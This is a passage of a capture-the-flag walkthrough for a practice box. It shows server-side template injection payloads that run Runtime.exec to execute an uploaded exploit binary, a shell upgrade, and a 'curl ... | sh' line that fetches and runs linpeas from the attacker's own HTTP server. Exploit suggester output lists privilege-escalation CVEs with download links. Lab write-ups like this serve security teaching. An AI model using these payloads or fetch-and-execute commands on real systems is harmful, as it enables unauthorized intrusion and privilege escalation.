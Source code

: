 ```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 exploit.elf")}
```
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./exploit.elf")}
```
Awesome we get a shell but its pretty bad so lets upgrade it and grab our user flag!

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```console
woodenk@redpanda:/home/woodenk$ cat user.txt
cat user.txt
e42c0d**************************
woodenk@redpanda:/home/woodenk$ 
```

Next thing I did was run linpeas from the /tmp folder and we get a few interesting things back.

```console
└──╼ [★]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.65.161 - - [18/Aug/2022 23:09:01] "GET /linpeas.sh HTTP/1.1" 200 -
```
```console
curl http://10.10.14.30:8000/linpeas.sh | sh
```
I tried for awhile on the CVE but I wasnt having any luck. I didn't even try the others but maybe there was a vector in there somewhere.

in the credits folder we can see credentials but as the user woodenk I wasnt able to access it.

```
Vulnerable to CVE-2021-3560


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
```